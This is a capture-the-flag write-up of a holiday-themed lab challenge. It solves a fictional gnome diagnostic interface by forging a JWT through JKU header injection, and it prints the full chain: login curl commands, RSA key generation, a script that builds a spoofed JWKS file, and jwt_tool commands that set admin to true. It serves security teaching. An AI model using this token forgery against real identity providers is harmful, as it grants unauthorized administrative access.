




# Rogue Gnome Identity Provider 

**Difficulty**: :fontawesome-solid-snowflake:{ .red }:fontawesome-solid-snowflake:{ .red }:fontawesome-regular-snowflake::fontawesome-regular-snowflake::fontawesome-regular-snowflake:<br/>


## Objective

!!! question "Request"
    Hike over to Paul in the park for a gnomey authentication puzzle adventure. What malicious firmware image are the gnomes downloading?

??? quote "Paul Beckett"
    As a pentester, I proper love a good privilege escalation challenge, and that's exactly what we've got here.

    I've got access to a Gnome's Diagnostic Interface at gnome-48371.atnascorp with the creds `gnome:SittingOnAShelf`, but it's just a low-privilege account.

    The gnomes are getting some dodgy updates, and I need admin access to see what's actually going on.

    Ready to help me find a way to bump up our access level, yeah?

## Hints

??? tip "Rogue Gnome IDP"
    If you need to host any files for the attack, the server is running a webserver available locally at http://paulweb.neighborhood/ . The files for the site are stored in ~/www

??? tip "Rogue Gnome IDP"
    https://github.com/ticarpi/jwt_tool/wiki and https://portswigger.net/web-security/jwt have some great information on analyzing JWT's and performing JWT attacks.

?? tip "Rogue Gnome IDP"
    It looks like the JWT uses JWKS. Maybe a JWKS spoofing attack would work.

## Solution

Once again on the attack with this challenge, we start in a command line.

```bash title="Paul's Terminal"
Hi, Paul here. Welcome to my web-server. I've been using it for JWT analysis.

I've discovered the Gnomes have a diagnostic interface that authenticates to an Atnas identity provider.

Unfortunately the gnome:SittingOnAShelf credentials discovered in 2015 don't have sufficient access to view the gnome diagnostic interface.

I've kept some notes in ~/notes

Can you help me gain access to the Gnome diagnostic interface and discover the name of the file the Gnome downloaded? When you identify the filename, enter it in the badge.


paul@paulweb:~$ 
```

Start with the obvious, `ls -la` to find the notes, then cat to read it.

```bash title="notes"
# Sites

## Captured Gnome:
curl http://gnome-48371.atnascorp/

## ATNAS Identity Provider (IdP):
curl http://idp.atnascorp/

## My CyberChef website:
curl http://paulweb.neighborhood/
### My CyberChef site html files:
~/www/

# Credentials

## Gnome credentials (found on a post-it):
Gnome:SittingOnAShelf

# Curl Commands Used in Analysis of Gnome:

## Gnome Diagnostic Interface authentication required page:
curl http://gnome-48371.atnascorp

## Request IDP Login Page
curl http://idp.atnascorp/?return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth

## Authenticate to IDP
curl -X POST --data-binary $'username=gnome&password=SittingOnAShelf&return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth' http://idp.atnascorp/login

## Pass Auth Token to Gnome
curl -v http://gnome-48371.atnascorp/auth?token=<insert-JWT>

## Access Gnome Diagnostic Interface
curl -H 'Cookie: session=<insert-session>' http://gnome-48371.atnascorp/diagnostic-interface

## Analyze the JWT
jwt_tool.py <insert-JWT>
```

### Authenticate and Capture the JWT

Our attack vector is going to be JWT manipulation/privilege escalation so I start with authenticating and capturing the JWT using the `curl` command from the `notes` document. 

```bash title="JWT Capture"
curl -X POST --data-binary $'username=gnome&password=SittingOnAShelf&return_uri=http%3A%2F%2Fgnome-48371.atnascorp%2Fauth' http://idp.atnascorp/login
```


### Analyze the JWT

The JWT is Base64 encoded. We can use command line to decode in the terminal or navigate to CyberChef, which I usually try first.


```json title="CyberChef Decoded"
{
    "sub": "gnome",
    "iat": 1767158551,
    "exp": 1767165751,
    "iss": "http://idp.atnascorp/",
    "admin": false
}
```

A JWT has three parts and the payload is all that I have decoded, however the signature is what I need to be able to send modified payloads and get them to be accepted as valid. In the notes there is a referrence to `jwt_tool.py` to analyze the JWT. I haven't used this before so I googled it. My search quickly returned [a GitHub](https://github.com/ticarpi/jwt_tool) of the same name. The README began with "`jwt_tool.py` is a toolkit for validating, forging, scanning and tampering JWTs (JSON Web Tokens)." Sounds like just the trick.<br/>
The execution looks easy enough, so hopping back in the terminal I highlight and copy the token, then assign it to a variable to make it easier to handle:

```bash title="save token"
TOKEN=<paste_token_here>

pwt_tool.py $TOKEN
```



Now we get the header as well as the payload and can see the vulnerability!

```bash title="Vulnerability" hl_lines="3"
Token header values:
[+] alg = "RS256" # RSA signature (public/private key pair)
[+] jku = "http://idp.atnascorp/.well-known/jwks.json" # JWK Set URL - tells the server WHERE to fetch the public key
[+] kid = "idp-key-2025" # Key ID - which key from the set to use
[+] typ = "JWT"
```

JKU Injection is going to be the way forward! Since the server trusts the `jku` field it will fetch the public key from wherever it is pointed to verify the signature. Paul has a web server that we were told about at `http://paulweb.neighborhood/` which can be used to host our own public key.

### Attack

#### Generate RSA Key Pair

```bash title="Generate Private Key"
openssl genrsa -out private.pem 2048
```
```bash title="Extract Public Key"
openssl rsa -in private.pem -pubout -out public.pem
```

#### Create a Malicious JWKS File

I used the below python script to create the JWKS file with my public key in the proper format.

```bash title="Malicious JWKS"
python3 << 'EOF'
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend
import base64
import json

# Read the public key
with open('public.pem', 'rb') as f:
    public_key = serialization.load_pem_public_key(f.read(), backend=default_backend())

# Get the public numbers
numbers = public_key.public_numbers()

# Convert to base64url
def int_to_base64url(num):
    num_bytes = num.to_bytes((num.bit_length() + 7) // 8, byteorder='big')
    return base64.urlsafe_b64encode(num_bytes).rstrip(b'=').decode('utf-8')

n = int_to_base64url(numbers.n)
e = int_to_base64url(numbers.e)

jwks = {
    "keys": [{
        "kty": "RSA",
        "kid": "idp-key-2025",
        "use": "sig",
        "alg": "RS256",
        "n": n,
        "e": e
    }]
}

# Save to ~/www directory (Paul's web server directory)
with open('www/malicious-jwks.json', 'w') as f:
    json.dump(jwks, f, indent=2)

print("✓ JWKS file created at ~/www/malicious-jwks.json")
EOF
```

#### Create Forged JWT

`jwt_tool.py` can be used to forge the JWT with a modified header pointing to the malicious JWKS file and modified payload changing `admin` to `true`.

```bash title="jwt attack"
jwt_tool.py $TOKEN -T -S rs256 -pr private.pm -I -hc jku -hv "http://paulweb.neighborhood/malicious-jwks.json" -pc admin -pv true
```

* `-T` = Tamper mode
* `-S rs256` = Sign with RS256 algorithm
* `pr private.pem` = Use private key that was created
* `-I` = Inject claims
* `-hc jku -hv "..."` = Modify **h**eader **c**laim `jku` to point to the malicious JWKS
* `-pc admin -pv true` = Modify **p**ayload **c**laim `admin` to `true`l



We copy the forged JWT from the output and save it:

```bash title="Token"
FORGED_TOKEN="<paste-forged-jwt-here>"
```

Now that we have a forged token, we can attempt to authenticate with it.

```bash
curl -v "http://gnome-48371.atnascorp/auth?token=$FORGED_TOKEN"
```



Authenticating with the forged token returns a session cookie that we need to access the diagnostic interface. Save the session value; `SESSION="<paste-session-value-here>"`.
Now use the session value to acces the diagnostic interface with our elevated privileges and find the downloaded file. 

!!! success "Access the Diagnostic Interface"
    ```bash
    curl -H "Cookie: session=$SESSION" http://gnome-48371.atnascorp/diagnostic-interface
    ```

    

    ```html hl_lines="16 17"
    <!DOCTYPE html>
    <html>
    <head>
        <title>AtnasCorp : Gnome Diagnostic Interface</title>
        <link rel="stylesheet" type="text/css" href="/static/styles/styles.css">
    </head>
    <body>
    <h1>AtnasCorp : Gnome Diagnostic Interface</h1>
    <div style='display:flex; justify-content:center; gap:10px;'>
    
    <div style='width:30vh; height:30vh; border:5px solid yellow; border-radius:15px; flex-shrink:0; display:flex; align-items:flex-start; justify-content:flex-start; text-align:left;'>
    System Log<br/>
    2025-12-30 22:58:13: Movement detected.<br/>
    2025-12-31 06:16:13: AtnasCorp C&C connection restored.<br/>
    2025-12-31 08:13:01: Checking for updates.<br/>
    2025-12-31 08:13:01: Firmware Update available: refrigeration-botnet.bin<br/>
    2025-12-31 08:13:03: Firmware update downloaded.<br/>
    2025-12-31 08:13:03: Gnome will reboot to apply firmware update in one hour.</div>
    </div>
    <div class="statuscheck">
        <div class="status-container">
            <div class="status-item">
                <div class="status-indicator active"></div>
                <span>Live Camera Feed</span>
            </div>
            <div class="status-item">
                <div class="status-indicator active"></div>
                <span>Network Connection</span>
            </div>
            <div class="status-item">
                <div class="status-indicator active"></div>
                <span>Connectivity to Atnas C&C</span>
            </div>
        </div>
    </div>

    </body>
    </html>
    ```

## Response

!!! quote "Paul"
    Brilliant work on that privilege escalation! You've successfully gained admin access to the diagnostic interface.

    Now we finally know what updates the gnomes have been receiving - proper good pentesting skills in action!

    Brilliant! You've escalated your skills to admin-level across every challenge - proper pentesting at its finest, mate!
